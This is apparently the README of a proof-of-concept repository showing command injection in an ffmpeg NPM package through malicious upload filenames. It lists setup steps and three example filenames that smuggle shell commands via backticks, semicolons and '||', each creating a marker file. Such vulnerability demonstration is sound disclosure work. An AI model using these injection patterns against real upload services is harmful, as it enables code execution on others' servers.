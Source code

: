 # ffmpeg-poc

This repository contains a web application that demonstrates how the command injection vulnerability in ffmpeg NPM package can be exploited.

### PoC

1. Clone the repository: `git clone https://github.com/5trCp7/ffmpeg-poc`
2. Install dependenciesw: `npm install`
3. Start the web server: `npm start`
4. Open the website using a browser
5. Upload a file with malicious filename

### Example payloads
\`touch rce\`.mp4

file.mp4;touch rce;

file.mp4||touch /tmp/rce||
